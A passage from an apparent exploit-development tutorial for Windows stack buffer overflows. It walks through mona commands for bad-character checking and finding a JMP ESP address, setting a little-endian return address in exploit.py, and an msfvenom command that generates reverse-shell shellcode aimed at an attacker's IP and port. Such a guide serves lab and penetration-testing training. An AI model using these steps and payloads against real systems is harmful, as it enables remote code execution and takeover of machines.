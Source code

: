 Then compare again :

```
!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS>
```

Repeat those two steps until the results status returns **Unmodified**, this indicates that no more bad characters exist.

------

### Finding a jump point 

#### JMP ESP - Inside the .exe

```
!mona jmp -r esp -cpb "<BAD_CHARS>"
```

#### JMP ESP - inside a DLL

```
!mona modules
```

We need to found a .dll were Rebase, SafeSEH, ASLR, NXCompat are sets to False. When you found it, run the command below to search for a **JMP ESP** (FFE4), inside the dll :

```
!mona find -s "\xff\xe4" -m <DLL>
```

#### Return address

Choose an address in the results and update exploit.py :

- Setting the **retn** variable to the address, written backwards (little-endian)

```
# Example of a JMP ESP address
0x625011af

# exploit.py
retn = "\xaf\x11\x50\x62"
```

------

### Generate payload 

Now we generate our shellcode **without** the badchars that we found :

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -b "<BAD_CHARS>" -f c
```

Copy the generated shellcode and update exploit.py :

- Setting the **payload** variable equal to the shellcode
